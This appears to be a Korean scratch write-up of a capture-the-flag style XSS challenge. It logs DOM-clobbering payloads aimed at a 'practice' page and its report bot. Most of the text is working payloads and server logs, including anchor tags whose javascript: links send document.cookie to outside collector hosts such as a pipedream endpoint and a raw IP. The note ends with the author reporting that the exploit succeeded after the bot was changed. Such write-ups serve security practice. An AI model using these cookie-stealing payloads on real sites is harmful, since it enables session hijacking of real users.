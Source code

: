 # 제작중..

# 삽질
<a href="report">test</a>
<a href="/report">test</a>
<a href="//www.naver.com">test</a> -> RPO 언인텐..?

<a href='javascript:document.location="https://www.naver.com" id='CONFIG' name='main'>link</a> <a id='CONFIG' name='debug'></a> -> 안됨

<a href='https://www.naver.com' id="CONFIG" name='main'>link</a> <a id='CONFIG' name='debug'></a> -> 됨

<a href='https://www.naver.com'>link</a> <a id='CONFIG' name='debug'></a> -> 됨

<a href='javascript:document.location="https://054e-118-235-6-100.ngrok-free.app"+"1234"' id="CONFIG" name='main'>main</a> <a id='CONIFG' name='debug'>notu</a>

https://pipedream.com/@s3curity/invite?token=6008fca8296b9c31613d9b60c5f59cc1

practice?content=<a href="javascript:document.location='https://www.naver.com'" id='CONFIG' name='main'>sadf</a><a href='id='CONFIG' name='debug'></a>

<a id="CONFIG">bypass</a>
<a id="CONFIG" name="location" href="javascript:document.location='https://www.google.com'">href</a>



# 첫 xss 성공
아래의 url로 접근하면 xss가 성공함
http://ssh.knock-on.org:10010/practice?content=<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://www.google.com'">href</a>

이를 기반으로 최종 페이로드를 짜봤는데, 이슈가 있음


### 페이로드 1
일단 아래와 같이 임시 도메인에 쿠키를 받기 위한 요청을 HTML 폼에 전달하여 보내면
http://ssh.knock-on.org:10010/practice에서 GET 폼에 아래의 데이터를 넣어줌
content -> <a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://enm9ufkipz1p.x.pipedream.net/'+document.cookie">href</a>

서버에서 아래와 같이 인코딩된 데이터를 받음
app_1  | 222.233.23.200 - - [03/May/2024 08:16:53] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A HTTP/1.1" 200 -

결과 -> xss 성공, 서버에 쿠키가 잘 전달됨

단순하게 서버입장에서 저런 페이로드를 받았으니까 /report 엔드포인트에서 서버에서 찍힌 'practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A' 이 페이로드 그대로 사용해보기로함

서버로그는 아래와같음
app_1  | 127.0.0.1 - - [03/May/2024 08:19:29] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A HTTP/1.1" 200 -

보면 알 수 있듯이 서버입장에서는 동일한 데이터를 받을 수 있음. 위는 /practice, 아래는 /report에서 전달한 페이로드
practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A
practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A

그런데 아래는 xss에 실패하고, 서버에는 쿠키가 전달 안됨..


### 페이로드 2
생각해보니까 어차피 /report에서 URL로 쏴주니까 HTML 폼에서 보낼게 아니라 URL에서 직접 보내야할 것 같음
http://ssh.knock-on.org:10010/practice?content=<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://enm9ufkipz1p.x.pipedream.net/'+document.cookie">href</a>
결과 -> 실패

인코딩 이슈일 것 같아서 아래와 같이 인코딩을 한 상태로 페이로드를 넘겨봤음
http://ssh.knock-on.org:10010/practice?content=%3Ca%20id%3D%22CONFIG%22%3Ebypass%3C%2Fa%3E%3Ca%20id%3D%22CONFIG%22%20name%3D%22location%22%20href%3D%22javascript%3Adocument.location%3D%27https%3A%2F%2Fenm9ufkipz1p.x.pipedream.net%2F%27%2Bdocument.cookie%22%3Ehref%3C%2Fa%3E

서버 로그
app_1  | 118.235.13.230 - - [03/May/2024 10:20:56] "GET /practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

결과 -> xss 성공, 서버에 쿠키가 잘 전달됨

같은 방식으로 다시 /report 엔드포인트에서 서버 로그에 찍힌 페이로드를 그대로 사용해봤음
서버로그
app_1  | 127.0.0.1 - - [03/May/2024 08:28:41] "GET /practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

분명 동일한 페이로드가 전달되었음
practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>
practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>


그런데 결과적으로 xss에 실패하고, 서버에는 쿠키가 전달 안됨..

봇문젠가..? 실제 xss가 성공해서 리다이렉트 되는 속도보다 봇이 xss 당하는 속도보다 느린 것 같음 
봇이 뭔가 /practice까지는 갔다오는데, requestbin까지는 안들리고 오는 느낌..? -> 가능성있긴해서 requestbin 말고 local에서 서버 열고 해봄

http://211.250.216.249:7000/

<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='http://211.250.216.249:7000/'+document.cookie">href</a>

app_1  | 211.250.216.249 - - [05/May/2024 13:37:24] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a>

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a>

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:location.href%3D'https://vftafne.request.dreamhack.games/'%2Bdocument.cookie">href</a>

는 개소리였고 걍 봇이 안되는거였음 봇 바꾸니까 익스됨 ㅅㅄㅄㅄㅄㅂ
